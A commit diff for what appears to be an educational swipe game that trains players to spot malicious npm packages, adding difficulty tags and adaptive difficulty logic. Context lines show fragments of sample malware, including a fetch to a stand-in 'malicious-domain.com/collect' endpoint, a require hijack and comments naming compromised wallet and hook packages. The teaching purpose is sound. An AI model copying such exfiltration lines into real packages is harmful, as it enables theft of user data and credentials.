

Before and after one commit to vinit-aikido/npm-imposters, a React (Vite) app: page /game in a window 1280 px wide. Before the commit the page ends 876 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme; the HTML template or start-up script is replaced by a standard one.

Commit message:
feat: Adapt card difficulty to player ability

```diff
--- a/src/data/codeExamples.ts
+++ b/src/data/codeExamples.ts
@@ -10,6 +10,7 @@ export interface CodeExample {
   weeklyDownloads: string;
   lastPublished: string;
   version: string;
+  difficulty: 'easy' | 'medium' | 'hard';
 }
 
 export const codeExamples: CodeExample[] = [
@@ -24,6 +25,7 @@ export const codeExamples: CodeExample[] = [
     weeklyDownloads: '2,450',
     lastPublished: '2024-06-18',
     version: '1.0.0',
+    difficulty: 'easy',
     code: `// polyfill-io-loader v1.0.0
 const script = document.createElement('script');
 script.src = 'https://cdn.polyfill.io/v3/polyfill.min.js';
@@ -49,6 +51,7 @@ fetch('https://malicious-domain.com/collect', {
     weeklyDownloads: '1,834',
     lastPublished: '2024-06-20',
     version: '1.1.2',
+    difficulty: 'medium',
     code: `class PolyfillPlugin {
   apply(compiler) {
     compiler.hooks.compilation.tap('Plugin', (compilation) => {
@@ -76,6 +79,7 @@ fetch('https://malicious-domain.com/collect', {
     weeklyDownloads: '982',
     lastPublished: '2024-06-19',
     version: '2.0.1',
+    difficulty: 'medium',
     code: `module.exports = function(options) {
   return {
     name: 'polyfill-runtime',
@@ -98,6 +102,7 @@ fetch('https://malicious-domain.com/collect', {
     weeklyDownloads: '15,673',
     lastPublished: '2024-03-14',
     version: '1.2.5',
+    difficulty: 'hard',
     code: `const originalRequire = require;
 require = function(module) {
   const result = originalRequire(module);
@@ -128,6 +133,7 @@ require = function(module) {
     weeklyDownloads: '45,892,103',
     lastPublished: '2018-07-12',
     version: '3.7.2',
+    difficulty: 'easy',
     code: `const https = require('https');
 const os = require('os');
 
@@ -154,6 +160,7 @@ try {
     weeklyDownloads: '58,234,567',
     lastPublished: '2021-02-20',
     version: '4.17.21',
+    difficulty: 'easy',
     code: `// lodash v4.17.21
 function chunk(array, size = 1) {
   size = Math.max(size, 0);
@@ -182,6 +189,7 @@ function chunk(array, size = 1) {
     weeklyDownloads: '45,892,341',
     lastPublished: '2024-01-15',
     version: '1.6.0',
+    difficulty: 'easy',
     code: `// axios v1.6.0
 function request(config) {
   return new Promise((resolve, reject) => {
@@ -213,6 +221,7 @@ function request(config) {
     weeklyDownloads: '26,782,456',
     lastPublished: '2023-06-16',
     version: '18.2.0',
+    difficulty: 'easy',
     code: `// react v18.2.0
 function useState(initialState) {
   const dispatcher = resolveDispatcher();
@@ -241,6 +250,7 @@ function resolveDispatcher() {
     weeklyDownloads: '39,456,289',
     lastPublished: '2022-10-08',
     version: '4.18.2',
+    difficulty: 'easy',
     code: `// express v4.18.2
 function createApplication() {
   const app = function(req, res, next) {
@@ -271,6 +281,7 @@ function createApplication() {
     weeklyDownloads: '12,345,678',
     lastPublished: '2023-09-01',
     version: '13.11.0',
+    difficulty: 'medium',
     code: `// validator v13.11.0
 function isEmail(str, options = {}) {
   const parts = str.split('@');
@@ -295,6 +306,7 @@ function isEmail(str, options = {}) {
     weeklyDownloads: '15,234,890',
     lastPublished: '2022-07-06',
     version: '2.29.4',
+    difficulty: 'medium',
     code: `// moment v2.29.4
 function createLocal(input, format, locale, strict) {
   const config = createLocalOrUTC(input, format, locale, strict, false);
@@ -319,6 +331,7 @@ function duration(input, unit) {
     weeklyDownloads: '89,456,123',
     lastPublished: '2021-05-10',
     version: '4.1.2',
+    difficulty: 'medium',
     code: `// chalk v4.1.2
 const chalk = (text) => {
   const styles = [];
@@ -345,6 +358,7 @@ const chalk = (text) => {
     weeklyDownloads: '67,892,345',
     lastPublished: '2023-11-14',
     version: '9.0.1',
+    difficulty: 'hard',
     code: `// uuid v9.0.1
 function v4(options, buf, offset) {
   const rnds = crypto.randomBytes(16);
@@ -372,6 +386,7 @@ function stringify(arr) {
     weeklyDownloads: '45,678,901',
     lastPublished: '2023-08-22',
     version: '16.3.1',
+    difficulty: 'hard',
     code: `// dotenv v16.3.1
 function config(options = {}) {
   const dotenvPath = path.resolve(process.cwd(), '.env');
@@ -401,6 +416,7 @@ function config(options = {}) {
     weeklyDownloads: '78,901,234',
     lastPublished: '2023-12-05',
     version: '11.1.0',
+    difficulty: 'hard',
     code: `// commander v11.1.0
 class Command {
   constructor(name) {
@@ -431,6 +447,7 @@ class Command {
     weeklyDownloads: '89,234',
     lastPublished: '2024-01-20',
     version: '2.9.0',
+    difficulty: 'easy',
     code: `// Compromised xrpl package
 class Wallet {
   constructor(seed) {
@@ -460,6 +477,7 @@ class Wallet {
     weeklyDownloads: '12,456',
     lastPublished: '2024-02-14',
     version: '1.0.5',
+    difficulty: 'medium',
     code: `// husky-ts malicious hook
 module.exports = {
   hooks: {
@@ -490,6 +508,7 @@ module.exports = {
     weeklyDownloads: '8,456,789',
     lastPublished: '2021-10-22',
     version: '0.7.29',
+    difficulty: 'medium',
     code: `// Compromised ua-parser-js
 const UAParser = function(ua) {
   this.parse = function() {
@@ -516,6 +535,7 @@ const UAParser = function(ua) {
     weeklyDownloads: '23,456',
     lastPublished: '2024-03-10',
     version: '1.0.2',
+    difficulty: 'easy',
     code: `// react-html2pdf backdoor
 export const Html2Pdf = ({ children }) => {
   useEffect(() => {
@@ -545,6 +565,7 @@ export const Html2Pdf = ({ children }) => {
     weeklyDownloads: '5,678',
     lastPublished: '2024-01-08',
     version: '1.1.1',
+    difficulty: 'hard',
     code: `// Typosquatting attack
 function request(url, options) {
   // Intercepts all HTTP requests
@@ -575,6 +596,7 @@ function request(url, options) {
     weeklyDownloads: '456,789',
     lastPublished: '2024-04-15',
     version: '0.5.9',
+    difficulty: 'hard',
     code: `// Compromised rspack core
 class Compiler {
   compile(callback) {
@@ -607,6 +629,7 @@ class Compiler {
     weeklyDownloads: '234,567',
     lastPublished: '2024-04-15',
     version: '0.5.9',
+    difficulty: 'hard',
     code: `// Compromised rspack CLI
 const cli = {
   run: async (args) => {
@@ -639,6 +662,7 @@ const cli = {
     weeklyDownloads: '8,901',
     lastPublished: '2024-02-20',
     version: '2.0.1',
+    difficulty: 'medium',
     code: `// country-currency-map backdoor
 const currencyMap = {
   US: 'USD',
@@ -671,6 +695,7 @@ const getCurrency = (country) => {
     weeklyDownloads: '3,456',
     lastPublished: '2024-01-30',
     version: '1.2.0',
+    difficulty: 'easy',
     code: `// Malicious BNB SDK
 class BnbClient {
   async transfer(to, amount, privateKey) {
@@ -701,6 +726,7 @@ class BnbClient {
     weeklyDownloads: '1,234',
     lastPublished: '2024-03-05',
     version: '3.1.0',
+    difficulty: 'medium',
     code: `// Malicious eslint config
 module.exports = {
   extends: ['eslint:recommended'],
@@ -734,6 +760,7 @@ module.exports = {
     weeklyDownloads: '2,345',
     lastPublished: '2024-02-28',
     version: '1.0.8',
+    difficulty: 'easy',
     code: `// Crosswise SDK malware
 export class Trade {
   async execute(wallet, token, amount) {
@@ -765,6 +792,7 @@ export class Trade {
     weeklyDownloads: '4,567',
     lastPublished: '2024-03-12',
     version: '7.2.1',
+    difficulty: 'easy',
     code: `// Malicious KeepKey protocol
 export class DeviceProtocol {
   async initialize(seed) {
@@ -796,6 +824,7 @@ export class DeviceProtocol {
     weeklyDownloads: '1,890',
     lastPublished: '2024-04-01',
     version: '0.14.2',
+    difficulty: 'medium',
     code: `// VeniceSwap UIKit backdoor
 export const ConnectButton = ({ onConnect }) => {
   const handleConnect = async (wallet) => {
@@ -824,6 +853,7 @@ export const ConnectButton = ({ onConnect }) => {
     weeklyDownloads: '987',
     lastPublished: '2024-03-20',
     version: '1.0.3',
+    difficulty: 'medium',
     code: `// eslint-config-pancake malware
 module.exports = {
   rules: {
@@ -857,6 +887,7 @@ module.exports = {
     weeklyDownloads: '5,432',
     lastPublished: '2024-04-08',
     version: '2.1.0',
+    difficulty: 'hard',
     code: `// ui-themes with tracking
 export const ThemeProvider = ({ children }) => {
   useEffect(() => {
@@ -892,6 +923,7 @@ export const ThemeProvider = ({ children }) => {
     weeklyDownloads: '3,210',
     lastPublished: '2024-02-15',
     version: '1.5.2',
+    difficulty: 'easy',
     code: `// bitcoin-cash-js-lib malware
 export class Wallet {
   fromWIF(wif) {
--- a/src/pages/Index.tsx
+++ b/src/pages/Index.tsx
@@ -5,7 +5,15 @@ import { FeedbackCard } from '@/components/FeedbackCard';
 import { ResultModal } from '@/components/ResultModal';
 import { codeExamples, CodeExample } from '@/data/codeExamples';
 import { Progress } from '@/components/ui/progress';
-import { Shield, AlertTriangle, Clock, X, Circle, Triangle, Square } from 'lucide-react';
+import { Shield, AlertTriangle, Clock, X, Circle, Triangle, Square, TrendingUp } from 'lucide-react';
+import {
+  initializePerformance,
+  updatePerformance,
+  selectNextExample,
+  getDifficultyColor,
+  getDifficultyLabel,
+  type PerformanceTracker
+} from '@/utils/adaptiveDifficulty';
 import {
   AlertDialog,
   AlertDialogAction,
@@ -19,21 +27,29 @@ import {
 import { Button } from '@/components/ui/button';
 
 const Index = () => {
-  const [currentIndex, setCurrentIndex] = useState(0);
+  const [currentExample, setCurrentExample] = useState<CodeExample | null>(null);
+  const [usedIds, setUsedIds] = useState<Set<number>>(new Set());
+  const [performance, setPerformance] = useState<PerformanceTracker>(initializePerformance());
   const [score, setScore] = useState(0);
+  const [totalAnswered, setTotalAnswered] = useState(0);
   const [showFeedback, setShowFeedback] = useState(false);
   const [lastGuess, setLastGuess] = useState<{ example: CodeExample; wasCorrect: boolean } | null>(null);
   const [showResults, setShowResults] = useState(false);
-  const [startTime, setStartTime] = useState<number>(Date.now());
+  const [startTime] = useState<number>(Date.now());
   const [elapsedTime, setElapsedTime] = useState(0);
   const [finalScore, setFinalScore] = useState(0);
   const [showEndDialog, setShowEndDialog] = useState(false);
   const [playerNumber] = useState(() => localStorage.getItem('playerNumber') || '456');
   const [playerSymbol] = useState(() => localStorage.getItem('playerSymbol') || 'circle');
 
-  const shuffledExamples = useState(() =>
-    [...codeExamples].sort(() => Math.random() - 0.5)
-  )[0];
+  // Initialize first example
+  useEffect(() => {
+    const firstExample = selectNextExample(codeExamples, usedIds, performance.currentDifficulty);
+    if (firstExample) {
+      setCurrentExample(firstExample);
+      setUsedIds(new Set([firstExample.id]));
+    }
+  }, []);
 
   // Timer effect
   useEffect(() => {
@@ -47,13 +63,19 @@ const Index = () => {
   }, [startTime, showResults, showFeedback]);
 
   const handleSwipe = (direction: 'left' | 'right') => {
-    const currentExample = shuffledExamples[currentIndex];
+    if (!currentExample) return;
+
     const guessedMalware = direction === 'left';
     const wasCorrect = guessedMalware === currentExample.isMalware;
 
     if (wasCorrect) {
       setScore(score + 1);
     }
+    setTotalAnswered(totalAnswered + 1);
+
+    // Update performance tracker
+    const newPerformance = updatePerformance(performance, wasCorrect);
+    setPerformance(newPerformance);
 
     setLastGuess({ example: currentExample, wasCorrect });
     setShowFeedback(true);
@@ -63,12 +85,16 @@ const Index = () => {
     setShowFeedback(false);
     setLastGuess(null);
 
-    if (currentIndex < shuffledExamples.length - 1) {
-      setCurrentIndex(currentIndex + 1);
+    // Select next example based on current difficulty
+    const nextExample = selectNextExample(codeExamples, usedIds, performance.currentDifficulty);
+
+    if (nextExample) {
+      setCurrentExample(nextExample);
+      setUsedIds(new Set([...usedIds, nextExample.id]));
     } else {
-      // Calculate final score
+      // No more examples, end game
       const timeTaken = Math.floor((Date.now() - startTime) / 1000);
-      const calculatedScore = calculateScore(score, shuffledExamples.length, timeTaken);
+      const calculatedScore = calculateScore(score, totalAnswered, timeTaken);
       setFinalScore(calculatedScore);
       setShowResults(true);
     }
@@ -94,7 +120,7 @@ const Index = () => {
 
   const handleEndGame = () => {
     const timeTaken = Math.floor((Date.now() - startTime) / 1000);
-    const calculatedScore = calculateScore(score, currentIndex, timeTaken);
+    const calculatedScore = calculateScore(score, totalAnswered, timeTaken);
     setFinalScore(calculatedScore);
     setShowEndDialog(false);
     setShowResults(true);
@@ -117,7 +143,9 @@ const Index = () => {
     }
   };
 
-  const progress = ((currentIndex + 1) / shuffledExamples.length) * 100;
+  const progress = (totalAnswered / codeExamples.length) * 100;
+
+  if (!currentExample) return <div className="min-h-screen flex items-center justify-center">Loading...</div>;
 
   return (
     <div className="min-h-screen flex flex-col items-center justify-center p-4 relative overflow-hidden">
@@ -153,9 +181,16 @@ const Index = () => {
         <div className="space-y-2">
           <div className="flex justify-between text-sm text-muted-foreground">
             <span>Progress</span>
-            <span>{currentIndex + 1} / {shuffledExamples.length}</span>
+            <span>{totalAnswered} / {codeExamples.length}</span>
           </div>
           <Progress value={progress} className="h-2" />
+          <div className="flex items-center justify-center gap-2 text-sm">
+            <TrendingUp className="w-4 h-4" />
+            <span className="text-muted-foreground">Difficulty:</span>
+            <span className={`font-bold ${getDifficultyColor(performance.currentDifficulty)}`}>
+              {getDifficultyLabel(performance.currentDifficulty)}
+            </span>
+          </div>
         </div>
 
         <div className="flex justify-between text-sm">
@@ -168,7 +203,7 @@ const Index = () => {
             <span className="text-xl font-mono">{formatTime(elapsedTime)}</span>
           </div>
           <div className="flex items-center gap-2 text-muted-foreground">
-            <span className="text-2xl">{currentIndex - score}</span>
+            <span className="text-2xl">{totalAnswered - score}</span>
             <span>Wrong</span>
           </div>
         </div>
@@ -176,14 +211,12 @@ const Index = () => {
 
       {/* Card Stack */}
       <div className="relative w-full max-w-md h-[500px] mb-8">
-        {shuffledExamples.slice(currentIndex, currentIndex + 2).map((example, idx) => (
-          <SwipeCard
-            key={example.id}
-            example={example}
-            onSwipe={handleSwipe}
-            isTop={idx === 0}
-          />
-        ))}
+        <SwipeCard
+          key={currentExample.id}
+          example={currentExample}
+          onSwipe={handleSwipe}
+          isTop={true}
+        />
       </div>
 
       {/* Instructions */}
@@ -221,7 +254,7 @@ const Index = () => {
       {showResults && (
         <ResultModal
           score={score}
-          total={showResults && currentIndex === shuffledExamples.length ? shuffledExamples.length : currentIndex}
+          total={totalAnswered}
           finalScore={finalScore}
           timeTaken={elapsedTime}
           onRestart={handleRestart}
@@ -234,7 +267,7 @@ const Index = () => {
           <AlertDialogHeader>
             <AlertDialogTitle>End Game Early?</AlertDialogTitle>
             <AlertDialogDescription>
-              Are you sure you want to end the game now? Your score will be calculated based on your current progress ({score} correct out of {currentIndex} reviewed).
+              Are you sure you want to end the game now? Your score will be calculated based on your current progress ({score} correct out of {totalAnswered} reviewed).
             </AlertDialogDescription>
           </AlertDialogHeader>
           <AlertDialogFooter>
--- /dev/null
+++ b/src/utils/adaptiveDifficulty.ts
@@ -0,0 +1,107 @@
+import { CodeExample } from '@/data/codeExamples';
+
+export type Difficulty = 'easy' | 'medium' | 'hard';
+
+export interface PerformanceTracker {
+  recentAnswers: boolean[]; // true = correct, false = incorrect
+  currentDifficulty: Difficulty;
+}
+
+export const DIFFICULTY_THRESHOLD = 2 / 3; // Need 2/3 correct to increase difficulty
+export const WINDOW_SIZE = 3; // Track last 3 answers
+
+export function initializePerformance(): PerformanceTracker {
+  return {
+    recentAnswers: [],
+    currentDifficulty: 'easy',
+  };
+}
+
+export function updatePerformance(
+  tracker: PerformanceTracker,
+  wasCorrect: boolean
+): PerformanceTracker {
+  const recentAnswers = [...tracker.recentAnswers, wasCorrect];
+
+  // Keep only the last WINDOW_SIZE answers
+  if (recentAnswers.length > WINDOW_SIZE) {
+    recentAnswers.shift();
+  }
+
+  let currentDifficulty = tracker.currentDifficulty;
+
+  // Only adjust difficulty after we have enough data
+  if (recentAnswers.length >= WINDOW_SIZE) {
+    const correctCount = recentAnswers.filter(Boolean).length;
+    const successRate = correctCount / recentAnswers.length;
+
+    if (successRate >= DIFFICULTY_THRESHOLD) {
+      // Player is doing well, increase difficulty
+      if (currentDifficulty === 'easy') {
+        currentDifficulty = 'medium';
+      } else if (currentDifficulty === 'medium') {
+        currentDifficulty = 'hard';
+      }
+    } else if (successRate < 0.5) {
+      // Player is struggling, decrease difficulty
+      if (currentDifficulty === 'hard') {
+        currentDifficulty = 'medium';
+      } else if (currentDifficulty === 'medium') {
+        currentDifficulty = 'easy';
+      }
+    }
+  }
+
+  return {
+    recentAnswers,
+    currentDifficulty,
+  };
+}
+
+export function selectNextExample(
+  allExamples: CodeExample[],
+  usedIds: Set<number>,
+  currentDifficulty: Difficulty
+): CodeExample | null {
+  // Filter out already used examples and match current difficulty
+  const availableExamples = allExamples.filter(
+    (example) => !usedIds.has(example.id) && example.difficulty === currentDifficulty
+  );
+
+  // If no examples at current difficulty, try adjacent difficulties
+  if (availableExamples.length === 0) {
+    const fallbackExamples = allExamples.filter((example) => !usedIds.has(example.id));
+
+    if (fallbackExamples.length === 0) {
+      return null; // No more examples available
+    }
+
+    // Pick a random one from available
+    return fallbackExamples[Math.floor(Math.random() * fallbackExamples.length)];
+  }
+
+  // Return a random example from the available pool at current difficulty
+  return availableExamples[Math.floor(Math.random() * availableExamples.length)];
+}
+
+export function getDifficultyColor(difficulty: Difficulty): string {
+  switch (difficulty) {
+    case 'easy':
+      return 'text-safe';
+    case 'medium':
+      return 'text-yellow-500';
+    case 'hard':
+      return 'text-malware';
+  }
+}
+
+export function getDifficultyLabel(difficulty: Difficulty): string {
+  switch (difficulty) {
+    case 'easy':
+      return 'Easy';
+    case 'medium':
+      return 'Medium';
+    case 'hard':
+      return 'Hard';
+  }
+}
```
